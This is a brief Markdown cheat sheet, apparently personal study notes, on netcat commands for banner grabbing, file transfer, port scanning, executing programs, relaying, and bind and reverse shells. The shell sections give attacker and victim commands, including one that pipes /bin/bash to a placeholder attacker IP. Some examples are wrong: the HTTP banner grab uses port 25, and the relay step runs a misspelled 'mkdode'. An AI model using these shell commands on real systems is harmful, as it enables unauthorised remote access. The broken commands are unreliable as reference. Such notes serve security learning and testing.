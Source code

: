 * [Netcat](#netcat)

# Netcat
Refs:
* <https://www.youtube.com/watch?v=7YrYRQQLjdA>
* <https://www.poftut.com/netcat-nc-command-tutorial-examples/>
## banner grabbing
```sh
# ssh
netcat 192.251.124.3 22
# SMTP
netcat 192.251.124.3 25

# HTTP
netcat 192.251.124.3 25
GET / HTTP/1.1
```
## listener
```sh
netcat -l -p 6789
```
## transfer file
```sh
# sender
netcat <receiver_ip_addr> 6789 < send_file
# receiver
netcat -l -p 6789 > recv_file
```
## port scanning
```sh
netcat -v -w1 -z <target_ip> <port_range>
```
`-v`  : verbose

`-w1` : wait for 1 sec before timeout

`-z`  : No I/O
## executing program
- The program can be an executable file (EXE, ELF, etc) or a script (shell, ruby, python etc)
- Any I/O is redirected to the established socket
```sh
netcat -e /path/to/executable
```
## running shell
### bind shell
```sh
# attacker
netcat <victim_ip> 1234
# victim
netcat -l -p 1234 -e /bin/bash
```
### reverse shell
```sh
# attacker
netcat -l -p 1234
# victim
netcat <attacker_ip> 1234 -e /bin/bash
```
## relaying
### server client relay
```
   ------                 -------------                 ----- 
  |client|-------------->|server|client|-------------->|server|
   ------                 -------------                 ------
                             Relay                      Target
```
```sh
# on relay
mkdode mypipe p
netcat -l -p 6789 < mypipe | netcat <target_ip> 80 > mypipe
```
